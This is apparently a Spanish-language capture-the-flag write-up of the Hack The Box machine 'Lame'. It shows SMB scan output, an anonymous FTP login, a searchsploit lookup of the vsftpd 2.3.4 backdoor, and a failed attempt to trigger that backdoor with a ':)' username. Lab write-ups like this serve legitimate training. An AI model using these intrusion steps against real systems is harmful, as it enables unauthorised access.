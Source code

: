 ```bash
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)
  | smb-os-discovery:
  |   OS: Unix (Samba 3.0.20-Debian)
  |   Computer name: lame
  |   NetBIOS computer name:
  |   Domain name: hackthebox.gr
  |   FQDN: lame.hackthebox.gr
  |_  System time: 2022-07-11T23:33:07-04:00
  |_clock-skew: mean: 2h00m39s, deviation: 2h49m46s, median: 36s
```

## RECONOCIMIENTO FTP
 
Iniciamos con el reconocimiento del puerto `21` donde podemos acceder con el usuario y contraseña "anonymous", obteniendo disponibilidad de los servicios, sin embargo, no es posible acceder a la información de la máquina.

```bash
  ❯ ftp 10.10.10.3
  Connected to 10.10.10.3.
  220 (vsFTPd 2.3.4)
  Name (10.10.10.3:bast1ant1c): anonymous
  331 Please specify the password.
  Password:
  230 Login sucessful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> dir
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  226 Directory send OK.
```

Vamos a verificar si la versión de `vsftpd` es vulnerable por medio de la utilidad `searchsploit`.

```bash
 ❯ searchsploit vsftpd 2.3.4
  --------------------------------------------------------- ---------------------------------
   Exploit Title                                            |  Path
  --------------------------------------------------------- ---------------------------------
  vsftpd 2.3.4 - Backdoor Command Execution                 | unix/remote/49757.py
  vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)    | unix/remote/17491.rb
  --------------------------------------------------------- ---------------------------------
```

Luego de revisar el exploit `unix/remote/49757.py`, detectamos que agregando `:)` en el usuario al momento de acceder, en caso de ser exitoso generamos un acceso a la máquina.

```bash
  ❯ ftp 10.10.10.3
  Connected to 10.10.10.3.
  220 (vsFTPd 2.3.4)
  Name (10.10.10.3:bast1ant1c): hi:)
  331 Please specify the password.
  Password:
  whoami
  RABBIT HOLE
```
